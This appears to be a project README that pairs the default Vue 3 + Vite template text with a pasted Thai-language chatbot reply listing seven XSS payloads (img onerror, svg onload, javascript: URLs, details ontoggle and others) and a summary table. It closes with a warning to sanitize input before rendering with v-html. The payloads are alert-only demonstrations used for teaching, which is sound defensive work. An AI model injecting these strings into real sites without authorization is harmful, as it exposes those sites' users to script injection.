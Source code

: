 # Vue 3 + Vite

This template should help get you started developing with Vue 3 in Vite. The template uses Vue 3 `<script setup>` SFCs, check out the [script setup docs](https://v3.vuejs.org/api/sfc-script-setup.html#sfc-script-setup) to learn more.

Learn more about IDE Support for Vue in the [Vue Docs Scaling up Guide](https://vuejs.org/guide/scaling-up/tooling.html#ide-support).

ได้เลย! มีตัวอย่าง **XSS แบบอื่นๆ** ที่อันตราย และ "น่าลอง" อีกเพียบ 🔥  
(แบบที่ Browser ยัง **ปล่อยผ่านได้บ้าง** โดยไม่ block ทันทีเหมือน `<script>`)

---

### 🔥 ตัวอย่าง input เสี่ยง XSS ที่น่าสนใจ

1. **Image Tag with onerror** (ยิงตอนโหลดรูปผิดพลาด)

```html
<img src=x onerror="alert('XSS')">
```

---

2. **SVG Tag with onload** (SVG ก็ยิง JavaScript ได้)

```html
<svg/onload=alert('XSS')>
```

---

3. **Anchor Tag with javascript:** (คลิกลิงก์แล้วโดน)

```html
<a href="javascript:alert('XSS')">Click me</a>
```

(พอกดที่ลิงก์ มันจะรัน `alert('XSS')` ทันที)

---

4. **Iframe Injection** (โหลดเว็บร้าย)

```html
<iframe src="javascript:alert('XSS')"></iframe>
```

(บาง Browser รุ่นเก่าๆ จะโดน)

---

5. **Style Tag with background-image:url(javascript:...)**

```html
<div style="background-image:url('javascript:alert(`XSS`)')">Click here</div>
```

(แต่แบบนี้หลาย browser รุ่นใหม่จะ block แล้วนะ)

---

6. **Math Tag (แบบเนียนๆ)**

```html
<math><mi xlink:href="javascript:alert(1)">CLICK</mi></math>
```

(บาง browser อาจ render แล้วโดน execute)

---

7. **Malformed Tag (HTML ปลอม)**

```html
<details open ontoggle="alert('XSS')">CLICK ME</details>
```

(พอเปิด/ปิด details จะยิง JavaScript ทันที)

---

### 📋 สรุป

| ประเภท | ตัวอย่าง |
|:---|:---|
| Image onerror | `<img src=x onerror=alert(1)>` |
| SVG onload | `<svg/onload=alert(1)>` |
| Link javascript: | `<a href="javascript:alert(1)">CLICK</a>` |
| Iframe src | `<iframe src="javascript:alert(1)">` |
| CSS background | `<div style="background-image:url('javascript:alert(1)')">` |
| Math + xlink | `<math><mi xlink:href="javascript:alert(1)">` |
| Details ontoggle | `<details open ontoggle=alert(1)>` |

---

### ❗ บทเรียนสำคัญ

**XSS ไม่ได้มีแค่ `<script>` เท่านั้น!**  
แต่มัน **สอดแทรกได้หลายแบบมาก** ทั้ง HTML, JS Event, Attribute

**ดังนั้น** เวลารับ input แล้วใช้ `v-html` ต้องระวังแบบสุดๆ หรือ sanitize ทุกครั้งก่อน render

---

### ✨ ถ้าอยากลอง demo ให้ "เห็นเต็มๆ"  
เช่น input 1 ช่อง แล้วใส่อะไรก็ได้ ลองยิงทุกตัวอย่าง XSS แบบ menu เลือก  
เดี๋ยวผมทำ version **Vite + Vue3 + DOMPurify** ให้ลองก็ได้

**เอาไหม?** (เดี๋ยวทำเป็น playground เล็กๆให้เลย สนุกแน่นอน 🚀)  
อยากได้มั้ย? 🎯  
**(ตอบว่าเอาหรือไม่เอาได้เลย!)**


